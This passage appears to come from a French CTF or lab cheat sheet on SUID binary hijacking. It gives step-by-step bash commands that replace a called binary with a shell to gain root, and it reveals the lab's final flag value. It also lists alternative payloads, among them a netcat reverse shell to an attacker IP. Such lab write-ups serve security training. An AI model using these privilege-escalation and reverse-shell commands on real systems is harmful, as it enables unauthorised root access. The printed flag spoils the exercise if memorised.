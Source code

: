 ### Exploitation par Binary Hijacking (Lab exact)
```bash
# 1. Identifier le binaire appelé (greetings)
strings welcome | grep -v "^/\|lib\|ELF"

# 2. Vérifier l'existence du binaire appelé
ls -la greetings

# 3. Exploitation - Remplacer le binaire
rm greetings                    # Supprimer l'original
cp /bin/bash greetings          # Remplacer par bash

# 4. Exécution du binaire SUID vulnérable
./welcome
# → Shell root obtenu automatiquement !

# 5. Vérification de l'escalade
whoami
# root

# 6. Navigation vers flag final
cd /root
ls -la
cat flag.txt                    # Flag 4
# Flag: b92bcdc876d52108778e2d81f3b01494
```

### Techniques alternatives de Binary Hijacking
```bash
# Méthode 1: Script shell personnalisé
echo '#!/bin/bash' > greetings
echo '/bin/bash -p' >> greetings
chmod +x greetings
./welcome

# Méthode 2: Python reverse shell
echo '#!/usr/bin/env python3' > greetings
echo 'import os; os.system("/bin/bash -p")' >> greetings
chmod +x greetings
./welcome

# Méthode 3: Netcat reverse shell
echo '#!/bin/bash' > greetings
echo 'nc -e /bin/bash <your_ip> <port>' >> greetings
chmod +x greetings
# Puis: nc -nvlp <port> (sur attacker)
./welcome
```

---

## 🕵️ 14. Workflow complet Lab-style
